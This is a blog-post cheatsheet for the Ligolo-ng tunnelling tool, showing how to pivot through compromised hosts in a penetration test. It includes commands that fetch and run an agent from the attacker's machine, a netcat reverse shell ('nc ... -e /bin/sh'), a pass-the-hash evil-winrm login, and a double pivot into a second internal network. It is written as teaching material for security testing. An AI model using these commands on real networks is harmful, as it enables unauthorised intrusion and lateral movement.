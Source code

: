 ```yaml
---
layout: post
title:  Ligolo-ng Cheatsheet
description: Cheatsheet for Ligolo-ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

<span style="font-size: smaller;">**Disclaimer**: This cheatsheet is regularly updated to ensure accuracy; however, due to updates and evolving tools, some commands may no longer work or may have alternative methods of running them. Please verify commands as needed and consult official documentation or additional resources if a command does not perform as expected.</span>

# Table of Contents
- [Getting Ligolo-ng](#getting-ligolo-ng)
- [Basic Pivot](#basic-pivot)
- [File Transfer Example with Single Pivot](#file-transfer-example-with-single-pivot)
- [Reverse Shell Example with Single Pivot](#reverse-shell-example-with-single-pivot)
- [Easy Double Pivot to Access a Second Internal Network](#easy-double-pivot-to-access-a-second-internal-network)
- [Fast Pipelines with same Port through Multiple Pivots](#fast-pipelines-with-same-port-through-multiple-pivots)

### Getting Ligolo.ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

#### Download the binaries manually (Recommended)
##### PROXY (Run this on Kali)
- [Linux 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

##### AGENT (Run this on Pivot Host)
- [Linux 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

#### Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

### Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

### File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9001 at the Pivot Host to download the "test.txt" file
wget http://172.16.150.10:9001/test.txt
```

### Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```

### Easy Double Pivot to Access a Second Internal Network
The following situation is given:
- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
- The Host B as access to another internal network (172.16.200.0/24).
- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).

To achieve that, we can do the following:
```shell
# Connect with evil-winrm
evil-winrm -i 172.16.150.10 -u Administrator -H <NT_hash>

# Upload ligolo-ng agent.exe
upload agent.exe

# Set up a new ligolo interface on Kali
sudo ip tuntap add user Vorkharium mode tun ligolo2
sudo ip link set ligolo2 up

# Add the second internal network
sudo ip route add 172.16.200.0/24 dev ligolo2

# On the Ligolo-ng current session, create a new listener connecting to the Port 11601 of the first session
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
./agent.exe --connect 172.16.150.10:11601 -ignore-cert

# On Ligolo-ng console - Show sessions
ligolo-ng » session

# Select the new session created from the Second Pivot Host
? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)

# Start new Ligolo-ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
[Agent : automotors\Administrator@DC01] » start --tun ligolo2

# Now we can access the second internal network 172.16.200.0/24
```
### Fast Pipelines with same Port through Multiple Pivots
```shell
# Note: Our Kali IP in this example is 192.168.45.200

# Add listeners inside Ligolo-Ng console
# On Session 1 - Pivot Host A (172.16.150.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# On Session 2 - Pivot Host B (172.16.200.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# Now we can access the Port 9000 in our Kali through Port 9000 on Pivot Host B and viceversa
172.16.200.1:9000 = 192.168.45.200:9000 = 127.0.0.1:9000
```
